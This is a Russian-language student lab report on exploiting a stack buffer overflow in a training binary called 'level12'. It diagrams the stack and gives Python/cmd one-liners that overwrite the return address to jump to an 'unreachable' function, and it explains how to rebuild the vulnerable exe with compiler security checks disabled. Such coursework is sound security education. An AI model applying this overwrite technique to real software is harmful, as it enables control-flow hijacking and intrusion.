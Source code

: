 # Отчёт по лабораторной работе №1

_Автор: Лебедев Денис_

## Основное решение

До выхода из main в стеке лежит следующая информация:

```mermaid
graph BT
    direction BT

    subgraph Stack["Стек"]
        C["buf<br/>(80 байт)"]
        B["saved RBP<br/>(4 байта)"]
        A["return address<br/>(4 байта)"]
    end

    A --> B --> C

		growth["⬆ Рост стека"]
    growth -.-> C
```

Для вызова функции unreachable надо заменить адрес возврата, на адрес функции. Для этого нужно передать 84 байта любых данных и адрес unreachable, записанные в обратном порядке.
В примере адрес равен 0x40100f. Воспользуемся питоном для генерации ввода:

```cmd
for /f "delims=" %a in ('python -c "import sys; sys.stdout.write('A'*84 + '\x0f\x10\x40\x00')"') do level12 %a
```

В результате получим следующий вывод:

```
C:\Users\ld200\Projects\CPlusPlusProjects\level12>level12 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA☼►@
0x40100f
Congratulations, moving to level 13 ...
Microsoft Windows [Version 10.0.19045.6332]
(c) Microsoft Corporation. All rights reserved.

level_13#
```

Это означает, что у нас получилось взломать код.

## Обобщение

Для взламывания программы с рандомным адресом, надо его распарсить в байт форму и развернуть. Опять же воспользуясь питоном, получим следующий скрипт:

```cmd
for /f "delims=" %a in ('level12 123 ^| python -c "import sys; data=sys.stdin.read().strip(); v=int(data,16); payload=b'A'*84 + v.to_bytes(4,'little'); sys.stdout.buffer.write(payload)"') do level12 "%a"
```

В итоге получим вывод, как в прошлый раз.

## Компиляция такого же exe

Для компиляции воспользуемся visual studio. Создадим проект консольного приложения, добавим в него файл [level12.cpp](./lebedev_lab1/lebedev_lab1.cpp) с кодом из архива и файлом [jump_level.h](./lebedev_lab1/jump_level.h) с объявлением функции unreachable. В настройках проекта отключим проверку безопасности, чтобы компилятор разрешил использование `strcpy`, и все оптимизации:
![alt text](images/security_check.png)
![alt text](images/optimizations.png)

Перейдём в папку [Release](./Release/) и воспользуемся тем же скриптом:

```cmd
for /f "delims=" %a in ('lebedev_lab1 123 ^| python -c "import sys; data=sys.stdin.read().strip(); v=int(data,16); payload=b'A'*84 + v.to_bytes(4,'little'); sys.stdout.buffer.write(payload)"') do lebedev_lab1 "%a"
```

В результате получим ожидаемый вывод:

```cmd
C:\Users\ld200\Projects\CPlusPlusProjects\lebedev_lab1\Release>lebedev_lab1 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ►?"
0x3f1020
Congratulations, moving to level 13 ...
```
